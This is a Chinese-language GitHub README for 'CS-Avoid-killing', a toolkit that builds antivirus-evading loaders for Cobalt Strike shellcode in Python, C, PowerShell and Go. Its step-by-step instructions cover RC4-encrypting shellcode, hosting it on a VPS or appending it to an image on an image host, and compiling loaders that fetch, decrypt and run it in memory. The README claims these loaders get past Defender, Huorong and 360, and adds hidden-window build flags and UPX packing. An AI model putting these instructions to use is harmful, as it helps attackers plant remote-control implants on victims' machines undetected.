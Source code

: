 # CS-Avoid-killing
CS免杀,包括python版和C版本的(经测试Python打包的方式在win10上存在bug,无法运行,Win7测试无异常

V1.0: 目前测试可以过Defender/火绒的静杀+动杀,360还没测= =不想装360全家桶了,可以自行测试

下一步开发计划:

V1.5: 加入C版本CS免杀(已完成)

V1.7:加入Powershell的免杀(已完成)

~~V2.0:开发出UI界面~~

V2.0: 开发成在线免杀平台(已完成)

> PS: 在实际使用中发现图形化界面不利于和其他工具结合,相比之下命令行的方式更具有扩展性
> 
> 关于自己写的在线免杀平台,暂不考虑开源,主要是觉得目前的技术还比较薄弱,如果有师傅想体验可以联系我

V3.0: 想办法结合更多免杀技术(想去研究下进程注入/文件捆绑,不知道免杀效果怎样)

- V3.1 增加了go版本(可过火绒/360/defender)

## 依赖环境

python: 

- python2
- pyinstaller
- requests

C: VS2019默认就够了

Powershell: Win10上测试没有问题,也就是ps5.1,更低版本未测试

go: go

## 安装

`git clone https://github.com/Gality369/CS-Avoid-killing.git`

## 使用

1. 先通过CS生成C格式的shellcode:` Attacks -> packages -> Payload Generator `选择一个listener然后生成一个C的shellcode(其实就是二进制代码)

2. Python版:

   > 1. 将生成的shellcode填入generator.py的shellcode变量中,填入一个Key,用于后续的RC4加密
   > 2. 运行generator.py,生成的payload自动保存在payload.txt中.
   > 3. 将payload.txt上传到你的VPS中,后续生成的加载器会从VPS中获取加密shellcode并在本地解密后执行
   > 4. 将在VPS上的payload路径填入PyLoader.py的url变量中,填入你刚刚设置的Key
   > 5. 用`python pyinstaller.py -F -w PyLoader.py`打包文件,可执行文件在pyshellcode文件夹下的dist中,双击运行可以看到主机上线

3. C版本:

   > 1. 按要求填入你自己的Key,shellcdoe长度和shellcode,执行
   > 2. 将第一行的数字复制进Loader的Base64ShellLen字段中,将第二行生成的加密shellcode保存在payload.txt文件中并将其放在服务器上(~~如果不叫这名或者不在跟路径,需要自己改`char request[1024] = "GET /RC4Payload32.txt HTTP/1.1\r\nHost:";`中的路径)
   > 在path中填入可以访问到payload的路径即可(Ex: /test/payload.txt)
   > 3. 在Loader中填入自己的Key和VPS的IP,编译
   > 4. 执行编译出的exe,CS上线
   
4. Powershell版本:

   > 1. 在CS中生成Powershell版本的payload.ps1
   > 2. Python3 PSconfusion.py payload.ps1 AVpayload.ps1
   > 3. 经测试能过目前所有杀软的静杀,动杀的话,由于CS中有些模块不免杀,所以加载这些模块时可能会触发动杀,这个以后再研究怎么绕过
   
5. go版本:

   > 1. 将一张不要太大的图片放入同一文件夹下
   > 2. 将生成的shellcode填入generator.py的shellcode变量中, 执行`python generator YourRC4key ImageName` ,生成的shellcode会自动追加到图片末尾
   > 3. 将图片上传至图床(找那种不会压缩的图床,保证shellcode不会被删掉)
   > 4. 将图片url和你的RC4key填入CS-Loader.go的相应位置
   > 5. 使用命令`go build -ldflags="-H windowsgui" CS-Loader.go`生成exe,可以用upx压缩下
   > 6. 执行exe,CS上线

## 注意

1. pyinstaller安装细节

   > 最后一个支持python2的版本是3.6(最新版pyinstall不再支持python2)
   >
   > 网址:https://github.com/pyinstaller/pyinstaller/releases
   >
   > 需要安装pywin32:https://github.com/mhammond/pywin32

2. 目标是什么环境就在什么环境上打包,否则可能会出现无法上线的情况,不推荐使用py3对项目进行改造,ctypes对py3的支持不太好,会有些莫名其妙的bug

3. 经过测试,C版本在X86Debug模式编译下无任何问题,Release模式下会存在莫名bug,在某些电脑上无法正常上线,请根据需求自行测试

4. 编译选项不要选择动态编译,否则可能会因为目标靶机上缺少相应dll而无法运行.

5. 加载ps脚本的方式这里不做讨论,有师傅已经总结的非常好了,请自行百度

6. go版本build前建议先`set GOARCH=amd64`,同时使用64位的shellcode,32位打包出来的程序会报一个在ntdll中找不到函数的错误,曾有人提问过:https://stackoverflow.com/questions/58649055/failed-to-find-rtlcopymemory-procedure-in-ntdll-dll-only-when-goarch-386
